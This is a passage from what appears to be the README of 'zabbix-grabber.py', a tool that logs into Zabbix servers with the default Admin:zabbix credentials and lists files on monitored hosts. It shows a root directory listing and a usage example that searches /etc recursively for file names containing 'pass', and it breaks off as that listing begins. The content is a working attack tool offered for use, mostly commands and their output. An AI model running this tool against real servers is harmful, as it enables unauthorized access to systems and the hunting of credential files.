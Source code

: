 ```
Contents in '/' using 0 levels of recursivity:

Regular expression filter: ''

2024-12-06 14:17   <DIR> bin.usr-is-merged
2024-12-15 12:58   <DIR> boot
2024-12-06 14:17   <DIR> cdrom
2024-12-19 20:49   <DIR> dev
2024-12-15 15:55   <DIR> etc
2024-12-07 08:58   <DIR> home
2024-12-06 14:17   <DIR> lib.usr-is-merged
2024-12-06 14:16   <DIR> lost+found
2024-12-06 14:17   <DIR> media
2024-12-06 14:17   <DIR> mnt
2024-12-06 14:17   <DIR> opt
2024-12-19 20:49   <DIR> proc
2024-12-10 17:48   <DIR> root
2024-12-19 20:50   <DIR> run
2024-12-06 14:17   <DIR> sbin.usr-is-merged
2024-12-07 08:58   <DIR> snap
2024-12-06 14:17   <DIR> srv
2024-12-19 20:49   <DIR> sys
2024-12-19 21:09   <DIR> tmp
2024-12-06 14:17   <DIR> usr
2024-12-07 09:08   <DIR> var
2024-12-06 14:17         bin  (7.00 B)
2024-12-06 14:17         lib  (7.00 B)
2024-12-06 14:17         lib64  (9.00 B)
2024-12-06 14:17         sbin  (8.00 B)
```
3. **List host folder using recursivity and regex expression**: you can use `-L RECURSIVE_LEVELS` and `-R REGEX` to find specific file or folder names into a folder and their subfolders with RECURSIVE_LEVELS of depth.
By default, RECURSIVE_LEVES is 0, and it can be a number between 0 and 5. I don't recommend to try with smaller numbers to avoid a timeout response from the server.
When you use recursivity, the format of the output changes and it show full path of each file.
Example:
```
$ python3 zabbix-grabber.py -A http://server-address/zabbix -H 10084 -F "/etc" -L 2 -R "pass"
  ______     _     _     _         _____           _     _               
 |___  /    | |   | |   (_)       / ____|         | |   | |                                                                                                                                                                                  
    / / __ _| |__ | |__  ___  __ | |  __ _ __ __ _| |__ | |__   ___ _ __                                                                                                                                                                     
   / / / _` | '_ \| '_ \| \ \/ / | | |_ | '__/ _` | '_ \| '_ \ / _ \ '__|                                                                                                                                                                    
  / /_| (_| | |_) | |_) | |>  <  | |__| | | | (_| | |_) | |_) |  __/ |                                                                                                                                                                       
 /_____\__,_|_.__/|_.__/|_/_/\_\  \_____|_|  \__,_|_.__/|_.__/ \___|_|                                                                                                                                                                       

By: rM3ofM3

Connecting to http://server-address/zabbix using Admin:zabbix.
[Successful logon to Zabbix version 6.4.]

Contents in '/etc' using 2 levels of recursivity:

```